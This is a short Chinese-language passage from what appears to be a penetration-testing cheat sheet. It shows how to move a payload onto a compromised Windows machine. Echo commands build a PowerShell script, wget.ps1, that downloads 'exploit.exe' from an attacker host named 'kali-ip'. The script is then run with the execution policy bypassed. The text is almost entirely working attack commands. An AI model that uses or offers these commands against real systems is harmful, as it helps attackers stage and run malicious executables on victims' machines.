同样,攻击机起http服务
```powershell-download
echo $storageDir =$pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://kali-ip/exploit.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
在目标机执行powershell-download中的命令,会生成wget.ps1
目标机执行:
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1



